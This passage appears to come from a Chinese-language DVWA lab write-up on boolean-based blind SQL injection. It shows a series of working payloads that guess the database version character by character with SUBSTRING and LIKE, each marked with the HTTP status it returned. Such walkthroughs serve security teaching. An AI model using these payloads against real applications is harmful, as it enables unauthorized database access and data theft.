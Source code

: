 接下來就是利用 `like` 來慢慢逼近或猜測，或用工具會比較方便

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.%') AND 1='1
```

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1%') AND 1='1
```

```sql
# 404
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.12%') AND 1='1
```

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.%') AND 1='1
```

```sql
# 200
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.2%') AND 1='1
```

```sql
# 400
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.2.%') AND 1='1
```

```sql
# 400
1' AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.2%') AND 1='1
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2089.png)
